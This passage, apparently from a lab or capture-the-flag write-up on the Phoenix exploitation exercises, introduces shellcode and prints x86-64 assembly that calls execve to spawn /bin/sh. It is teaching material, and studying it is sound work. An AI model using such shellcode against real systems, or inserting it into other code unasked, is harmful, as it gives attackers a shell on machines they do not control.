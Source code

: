 ![SIG TRAP](/assets/phoenix/SIGTRAP.png)

---
# Shellcode Formation

Okay nicee! Let's actually make a shellcode now. You can refer to my [in-depth writeup on shellcode](https://nastyax0.github.io/post/shellcode.html)*_ATTENTION_*.

Here’s the assembly:

```asm
BITS 64
global _start

section .text
_start:
    xor     rax, rax               ; Clear RAX
    mov     rbx, 0x68732f2f6e69622f ; "/bin//sh" string
    push    rbx                    ; Push to stack
    mov     rdi, rsp               ; Set RDI to pointer to "/bin/sh"
    xor     rsi, rsi               ; NULL RSI
    xor     rdx, rdx               ; NULL RDX
    mov     al, 59                 ; syscall number for execve
    syscall                        ; invoke syscall
```
